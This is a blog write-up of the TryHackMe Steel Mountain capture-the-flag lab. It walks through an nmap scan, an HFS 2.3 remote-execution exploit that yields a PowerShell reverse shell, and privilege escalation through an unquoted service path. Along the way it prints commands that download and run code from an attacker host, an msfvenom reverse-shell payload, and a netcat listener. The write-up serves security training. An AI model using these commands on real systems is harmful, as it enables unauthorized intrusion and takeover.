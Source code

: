 ```yaml
---
layout: single
title: SteelMountain - TryHackMe (OSCP STYLE)
excerpt: "On TryHackMe, the challenge of the Steel Mountain Machine is to be solved either through Metasploit or manually. This machine runs on Windows operating system. For this particular challenge, the manual approach will be followed to solve it."
date: 2023-04-14
classes: wide
header:
  teaser: /assets/images/steelmountain/portada.jpeg
  teaser_home_page: true
categories:
  - TryHackMe
  - infosec
tags:
  - TryHackMe
  - windows
  - Unquoted Service Path
  - HFS
---
```


## Introduccion

This is a write-up for the SteelMountain machine on the TryHackme platform. We tackled this pentesting exercise using the approach and methodology of OSCP.

## Enumeration

In this lab, we are dealing with a Windows machine.
For machine enumeration, we will scan all ports of the machine, request it to report back the open ports, and save all that information to a file to avoid making noise in case we need to refer back to it.
- -p-: Scans all ports
-	-oN nmap-initial-scan.txt: Saves output to a file named "nmap-initial-scan.txt"
-	-min-rate 5000: Specifies the minimum number of packets per second to be sent during the scan.
-	-T5: Sets the level of "aggressiveness" of the scan to 5, meaning that more intense and faster tests will be performed.
-	-Pn: Ignores checking whether the remote host is active and online.
-	-n: Disables DNS name resolution for IP addresses.

```sudo nmap -p- -sS --min-rate 5000 --open -T5 -vvv -n -Pn 10.10.178.153 -oG allPorts```

![1]

Upon port scanning, it was identified that a web server is being served on ports 80 and 8080. This indicates the presence of HTTP services on the target machine. Navigating to those ports, the following web pages were discovered.

![2]

This web page is only useful to solve the first question of the lab. In this write-up, we will focus on compromising the machine.

![3]

On the second page, we discovered an HttpFileServer 2.3. Using the "searchsploit" command to look for the name of this file, we found a Python script that allows remote command execution. This search was made possible by the ExploitDb database, which lists this exploit with the number 49584.

![4]

The script first sets some variables, including the IP address and port of the attacker machine (lhost and lport), and the IP address and port of the victim machine (rhost and rport). It then defines a command to be executed on the victim machine in PowerShell, which sets up a TCP connection to the attacker machine and sends the output of any executed commands back to the attacker machine.

It encodes this command in base64 format and creates a payload that includes the encoded command, which is then URL-encoded and sent to the victim machine as part of an HTTP GET request. Once the payload is received by the victim machine and executed, a reverse shell connection is established and the attacker machine can interact with the victim machine.

Finally ends by printing some debugging information and listening for incoming connections on the specified port using the netcat utility.

To make this script work, we need to change the first 4 parameters.

![5]

After running the script, we received the reverse shell on our machine.

![6]

![7]

By obtaining a reverse shell on the target machine, we were able to retrieve the first flag.

![8]


## Privilege escalation

It is important to note that we gained access with a PowerShell session, so all syntax used must be in this interpreter.

We used the PowerUp.ps1 tool to enumerate potential privilege escalation vectors within the machine. At the end of the script, we should add "Invoke-AllChecks" to perform the scan.

The GitHub repository to download the tool is:[Github](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)

We executed the script from our local machine using the Invoke-Expression tool, which means that the script was not downloaded or stored on the victim's machine.

```iex(New-Object Net.WebClient).downloadString('http://LIP:LPORT/PowerUp.ps1')```

We need to launch an HTTP server using Python, specifying the directory where the file mentioned above is located as the document root.

```sudo python3 -m http.server 8080```

![9]

The vulnerability detected by the tool is called "Unquoted Service Path".

![10]

The Unquoted Service Path vulnerability refers to an error in the way the path of a Windows service is specified in the registry. If the path contains spaces but is not enclosed in double quotes, the service may attempt to execute an unintended program or even a malicious backdoor. This vulnerability can be exploited if the user running the service has elevated privileges, allowing an attacker to escalate privileges to gain control over the system.

For example, let's say a Windows service is installed with a path of C:\Program Files\Example Service\service.exe. However, the service is registered in the registry without quotes around the path, like this:
HKLM\SYSTEM\CurrentControlSet\Services\ExampleService
ImagePath: C:\Program Files\Example Service\service.exe

If a user with administrative privileges attempts to start this service, Windows will search for the executable at the specified path. However, because the path contains spaces and is not enclosed in quotes, Windows will interpret the first space as a separator between the path and the first argument. In this case, Windows will attempt to execute C:\Program instead of C:\Program Files\Example Service\service.exe. If an attacker were to place a malicious file named C:\Program.exe on the system, Windows would execute that file instead of the intended service executable.
To exploit this vulnerability, an attacker could create a malicious file with a name like C:\Program.exe and place it on the system. When the vulnerable service is started, Windows would execute the malicious file instead of the intended executable, allowing the attacker to execute arbitrary code with elevated privileges.

To take advantage of the vulnerability on this machine, we will go to the path:

```C:\Program Files (x86)\IObit\```

This path is the first path where we can add an executable file due to user permissions.

Since we cannot access the C:\Program Files(x86) directory with our account privileges, we will place a vulnerable executable file named "Advanced.exe" generated with MSFVenom in this directory.

```msfvenom -p windows/x64/shell_reverse_tcp LHOST=x.x.x.x LPORT=xxx -f exe -o Advanced.exe```

We will use the Invoke-WebRequest tool from the target machine to request the file by sharing it from our machine to the target machine through the Python server.

```iwr -uri "http://AtackerIP:AtackerPort/Advanced.exe" -outfile "Advanced.exe```

![11]

Finally, we just need to stop and restart the service. When the service runs again, it will execute our script before the legitimate one, and it will call a listener that we have set up on our attacker machine as an administrator.

```
stop-service AdvancedSystemCareService9
start-service AdvancedSystemCareService9
nc -lvnp AtackerPort
```
 
   

We receive the shell in the listener set up with netcat.

![12]

In conclusion, this CTF provided an opportunity to practice different hacking techniques and tools, including enumeration, vulnerability scanning, exploitation, and privilege escalation. We were able to compromise the target machine by exploiting known vulnerabilities and using social engineering tactics. This CTF also helped us improve our understanding of how attackers can gain unauthorized access to systems and the importance of implementing security best practices to protect against such attacks.


[1]:/assets/images/steelmountain/1.png
[2]:/assets/images/steelmountain/2.png
[3]:/assets/images/steelmountain/3.png
[4]:/assets/images/steelmountain/4.png
[5]:/assets/images/steelmountain/5.png
[6]:/assets/images/steelmountain/6.png
[7]:/assets/images/steelmountain/7.png
[8]:/assets/images/steelmountain/8.png
[9]:/assets/images/steelmountain/9.png
[10]:/assets/images/steelmountain/10.png
[11]:/assets/images/steelmountain/11.png
[12]:/assets/images/steelmountain/12.png
